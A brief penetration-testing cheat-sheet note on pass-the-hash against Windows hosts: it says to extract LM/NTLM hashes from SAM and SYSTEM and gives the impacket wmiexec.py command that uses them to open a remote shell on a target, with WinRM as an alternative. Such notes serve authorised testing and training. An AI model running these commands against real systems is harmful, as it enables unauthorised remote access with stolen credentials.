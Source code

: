 Hash required: LM, NTLM
Method: [[Extract hash from SAM,SYSTEM]], or use found hashes. Confirm type with hash-identifier.

Connect to machine using impacket's wmiexec.py:
```
cp /usr/share/doc/python3-impacket/examples/wmiexec.py . // Default location on Parrot OS
python3 wmiexec.py -hashes LM_HASH:NTLM_HASH USER@TARGET_IP   // Spawns a semi-interactive Windows shell

```
Note: Don't forget to replace USER with admin when using admin hashes

Alternatively, use WinRM